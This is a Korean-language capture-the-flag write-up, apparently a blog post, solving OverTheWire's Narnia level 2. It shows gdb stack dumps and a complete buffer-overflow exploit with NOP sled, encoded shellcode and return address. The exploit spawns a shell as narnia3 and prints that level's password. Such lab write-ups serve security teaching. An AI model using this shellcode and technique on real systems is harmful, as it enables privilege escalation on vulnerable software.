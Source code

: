 <br>

1번과 동일한 유형.  

buf의 위치는 ```[ebp-0x80]```에서 시작함.  

따라서 입력을 ```nop 42byte + shell 48byte + nop 42byte + ret```를 주면 됨.

<br>

```
(gdb) r `python -c 'print "a"*132+"bbbb"'`
Starting program: /narnia/narnia2 `python -c 'print "a"*132+"bbbb"'`

Breakpoint 1, 0x0804848f in main ()
(gdb) x/200wx $ebp-0x80
0xffffd5b8:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd5c8:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd5d8:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd5e8:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd5f8:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd608:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd618:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd628:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd638:     0x61616161      0x62626262
[redacted]
0xffffd818:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd828:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd838:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd848:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd858:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd868:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd878:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd888:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd898:     0x42424242
```

<br>

```argv[1]```의 주소 값은 ```0xfffd818```임.   

쉘 코드를 넣어서 쉘 코드가 있는 주소를 확인해보면 ```0xffffd83e```임.  

따라서 ret에 위 주소를 넣어주면 성공.

<br>

```sh
narnia2@narnia:/narnia$ ./narnia2 `python -c 'print "\x90"*42+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*42+"\x3e\xd8\xff\xff"'`
$ id
uid=14002(narnia2) gid=14002(narnia2) euid=14003(narnia3) groups=14002(narnia2)
$ cat /etc/narnia_pass/narnia3
vaequeezee
```

